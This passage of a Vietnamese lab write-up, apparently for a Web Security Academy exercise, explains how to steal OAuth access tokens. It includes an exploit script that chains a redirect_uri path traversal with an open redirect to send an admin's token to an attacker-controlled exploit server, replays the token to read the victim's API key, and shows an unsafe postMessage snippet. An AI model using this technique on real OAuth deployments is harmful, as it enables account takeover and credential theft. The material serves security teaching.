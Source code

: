   <img width="1919" height="939" alt="image" src="https://github.com/user-attachments/assets/09f8010b-c972-4a92-be4e-b7d3087d6e0f" />

  Lúc này đề thực hiện lừa victim, ta tạo script trên file /exploit như sau:

  ```
  <script>
    if (!document.location.hash) {
        window.location = 'https://oauth-0a93003e035c3e4a804701f6025600f3.oauth-server.net/auth?client_id=qpt6rxflzicl92qi8gjnf&redirect_uri=https://0ace008903c23ee9805e03fd00b100df.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ab8005a03573eba806202e40130008c.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
  </script>
  ```

  <img width="1919" height="943" alt="image" src="https://github.com/user-attachments/assets/d400dff9-4ebd-4a20-8ffb-69bd195572a1" />

  Sau đó thực hiện "Deliver exploit to victim" và chờ victim sập bẫy.

  Kiểm tra access log và ta đã nhận dược access token trả về của admin user:

  <img width="1919" height="943" alt="image" src="https://github.com/user-attachments/assets/7218cb64-60a9-44d7-af04-86620f840dc5" />

  Trong Burp Repeater, ta thực hiện gửi lại request /me trong đó phần *Authorization: Bearer* ta thay thế đi kèm với token ta vừa thu thập được của admin user:

  <img width="1864" height="847" alt="image" src="https://github.com/user-attachments/assets/41bb3a57-861f-427e-9e14-1d1472e5b419" />

  &rarr; Kết quả ta đã thực hiện API call thành công để lấy dữ liệu của nạn nhân, bao gồm cả khóa API của họ.

- Ngoài các open redirects, ta cũng nên tìm kiếm bất kỳ lỗ hổng nào khác cho phép trích xuất code hoặc token và gửi nó đến một miền bên ngoài. Một vài ví dụ hiệu quả bao gồm:

  - *Dangerous JavaScript (nguy hiểm khi xử lý query/fragment)*: Một số app có JS lấy query string (?code=XYZ) hoặc fragment (#access_token=ABC) để xử lý, ví dụ hiển thị     lên UI hoặc gửi sang iframe qua postMessage. Nếu JS này viết không an toàn, attacker có thể:
    
    - Inject payload để token bị forward đi.
    
    - Lợi dụng “gadget chain” → token đi qua nhiều script trung gian rồi mới thoát ra ngoài domain attacker.
   
        Ví dụ:

        ```html
        window.postMessage(location.hash, "*");
        ```

        &rarr; Token trong fragment bị gửi đi mọi origin chứ không chỉ domain hợp lệ → attacker nghe lén được.

  - *XSS vulnerabilities*: Bình thường XSS có impact lớn, nhưng attacker chỉ có “khoảng thời gian ngắn” trước khi user tắt tab/đóng session. Ngoài ra, cookie thường được     bảo vệ bằng HttpOnly → JS không đọc được. Nếu thay vì ăn cắp cookie, attacker dùng XSS để ăn cắp OAuth code/token, thì:
